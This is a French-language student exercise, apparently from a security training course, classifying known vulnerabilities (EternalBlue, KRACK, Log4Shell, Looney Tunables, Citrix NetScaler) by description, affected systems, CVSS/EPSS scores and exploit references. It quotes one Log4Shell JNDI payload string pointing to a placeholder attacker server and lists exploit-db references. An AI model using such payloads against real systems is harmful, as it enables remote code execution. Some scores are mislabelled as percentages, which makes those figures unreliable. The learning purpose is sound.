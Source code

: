 # Initiation à la classification des vulnérabilités

[Brief : 02-MESP-Initiation-Vuln](https://github.com/Aif4thah/Dojo-101/blob/main/Dojo-101-Apprentissage/02-MESP-Initiation-Vuln.md)

## Vulnérabilités

---

### 1. **Eternal - Blue** CVE-2017-0144

**Description :** Dans le serveur SMBv1 dans des différentes systèmes Windows (cité dans les éléments d’infrastructure concernés) Permet aux attaquants d'exécuter du code arbitraire avec des packets qui ont été modifié, connues comme ""Windows SMB Remote Code Execution Vulnerability."

**Éléments d'infrastructure concernés:**

  - Vista SP2
  - Windows Server 2008 SP2 and R2 SP1
  - Windows 7 SP1
  - Windows 8.1
  - Windows Server 2012 Gold and R2
  - Windows RT 8.1; and Windows 10 Gold, 1511, and 1607
  - Windows Server 2016

**Score base CVSS :**

  - Résultat : **0%** Car pas de serveur SBMv1 (Le score est calculé par rapport aux infrastructures internes de l’établissement où je develop mon activité).

**- Score EPSS :** à la date **2025-10-23** il est de **94.32%**

**- Exploit :**

  - Quelques references des exploit qui ont été publié:
    - exploit-db.com: 42030
    - exploit-db.com: 42031
    - exploit-db.com: 41891

### 2. **KRACK** - CVE-2017-13077 à 13082, 13084, 13086, 13087 et 13088

**Description :** C'est un attaque par rejeu sur le protocole WI-FI, découverte en 2016. Par une action repetitive pendant le handshake un attaquant finis pour avoir la keychain pour déchiffrer le traffic.

**Éléments d'infrastructure concernés:**

  - La plus par des platforms qui ont du WIFI
- Score base CVSS : **6.8%**
- Score EPSS : **0.77%**  (selon https://epsslookuptool.com/)

**Exploit :** L’exploitation de ces vulnérabilités peut entraîner le déchiffrement, la réutilisation de paquets (packet replay), le détournement de connexions TCP, l’injection de contenu HTTP, et d’autres conséquences. Par exemple : CVE-2017-13087 — réinstallation de la GTK lors du traitement d’une réponse WNM Sleep Mode (Wireless Network Management).

### 2. **log4shell** CVE-2021-44228

**Description :** C'était un Zero-day qui permettais d'executer de code Java arbitraire. Ce si involucre le service de logging Apache : Log4j (gère les traces et des historiques d'applications).
  
**Eléments d'infrastructure concernés:**
  - Des serveurs, ou ordinateurs qui ont les services concernés :
    - iCloud
    - L'édition Java de Minecraft
    - Steam
**Score base CVSS :** "L'Apache Software Foundation, dont Log4j est un projet, a attribué à Log4Shell une note CVSS de 10, la note la plus élevée possible"
**Score EPSS :** 94.36%

**Exploit :**

  - Peut être utilisée avec des charges utiles par exemple de la forme  `${jndi:ldap://serveur_pirate/message_malveillant} `
    - Génère des appels via le protocole LDAP ou DNS vers un serveur contrôle par un tiers.

### 3. **Looney-tenables** CVE-2023-4911

**Description :** C'est une vulnérabilité dans la libraire GNU-C, plus spécifiquement dans la variable d’environnement `GLIBC_TUNABLES` qui permet d'escalader les privileges jusqu'au root.

**Éléments d'infrastructure concernés:**
  - glibc 2.34 :
    -  INstallations par default de Fedora 37 and 38.
    -  Ubuntu 22.04 and 23.04
    -  Debian 12 and 13.
- Score EPSS : **78.36%**
- Exploit :
  - Avec un script, par exemple : https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt
  

### 4. **Vulnérabilité dans Citrix NetScaler ADC et NetScaler Gateway** CVE-2025-7775 CVE-2025-7776 CVE-2025-8424 

**Description :** Permet une exécution de code arbitraire à distance et affecte toutes les versions de Citrix NetScaler ADC et NetScaler Gateway, dans certaines configurations détaillées par l'éditeur. La vulnérabilité est activement exploitée. https://www.cert.ssi.gouv.fr/alerte/CERTFR-2025-ALE-012/
- Versions concernés:
    - NetScaler ADC and NetScaler Gateway 14.1 BEFORE 14.1-47.48
    - NetScaler ADC and NetScaler Gateway 13.1 BEFORE 13.1-59.22
    - NetScaler ADC 13.1-FIPS and NDcPP BEFORE 13.1-37.241-FIPS and NDcPP
    - NetScaler ADC 12.1-FIPS and NDcPP BEFORE 12.1-55.330-FIPS and NDcPP

**Éléments d'infrastructure concernés:**
  - Dans mon environnement de travail en particulier, le service comptable utilise Citrix pour se connecter au logiciel SaaS de comptabilité Berger-Levrault. Ce service a changé d’application pour la connexion à distance afin de mitiger, je suppose, l’impact des potentielles vulnérabilités.
  
- CVSS v4.0 Base Score: 
    - CVE-2025-7775 : 9.2 %
    - CVE-2025-7776 : 8.8 %
    - CVE-2025-8424 : 8.7 %

- Exploits pour CVE-2025-7775 ont été observées.
  
Source du support Citrix : https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX694938
